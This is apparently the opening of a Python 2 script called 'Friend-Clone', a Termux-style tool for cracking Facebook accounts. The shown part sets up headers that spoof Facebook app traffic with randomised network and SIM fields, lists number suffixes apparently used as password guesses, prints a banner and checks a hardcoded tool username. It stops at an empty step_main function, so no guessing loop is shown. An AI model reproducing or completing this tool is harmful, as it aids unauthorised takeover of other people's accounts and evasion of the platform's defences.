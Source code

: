 # Friend-Clone

#coding=utf-8
#!/usr/bin/python2
#coding=utf-8
#originally written (SYED ZADA)
try:
	import os,sys,time,datetime,random,hashlib,re,threading,json,getpass,urllib,cookielib,requests,uuid,string
	from multiprocessing.pool import ThreadPool
	from requests.exceptions import ConnectionError
except ImportError:
	os.system("pip2 install requests")

agents = [
  "Mozilla/5.0 (iPad; CPU OS 5_1 like Mac OS X) AppleWebKit/534.46 (KHTML, like Gecko) Version/5.1 Mobile/9B176 Safari/7534.48.3"
]
birth = ['001', '02', '03', '04', '05', '06', '07', '08', '09', '10', '11', '12', '13', '14', '15', '16', '17', '18', '19', '20', '21']
bd = random.randint(2e7, 3e7)
sim = random.randint(2e4, 4e4)
header = {'x-fb-connection-bandwidth': repr(bd), 'x-fb-sim-hni': repr(sim), 'x-fb-net-hni': repr(sim),'x-fb-connection-quality': 'EXCELLENT', 'user-agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.3','x-fb-connection-type': 'unknown','content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
logo = """
         \033[1;92m ooo
     \033[1;93m oo___oo
     \033[1;92m oo_____oo
     \033[1;93m ooooooooo
     \033[1;92m oo_____oo
     \033[1;92m _oo_____oo
\033[1;93m-----------------------------------------------------
 \033[1;93m(*)\033[1;92m Developer: (Prince Alim)
 \033[1;93m(*)\033[1;92m Facebook : BD TERMUX TUTORIAL
 \033[1;93m(*)\033[1;92m Github   : https://github.com/PrinceVau
\033[1;93m-----------------------------------------------------
"""
def tool():
	os.system("clear")
	print("")
	print(logo)
	time.sleep(1)
	print("First Put Tool Username...").center(50)
	print("")
	time.sleep(1)
	username = raw_input("[!] Tool Username : ")
	if username =="(Prince)":
		print("")
		time.sleep(1)
		print("\033[1;92mTool Username is correct").center(50)
		print("")
		time.sleep(1)
		step_main()
	else:
		print("")
		time.sleep(1)
		print("\033[1;91mTool Username Is Invalid :) ").center(50)
		print("")
		time.sleep(1)
		tool()
def step_main():
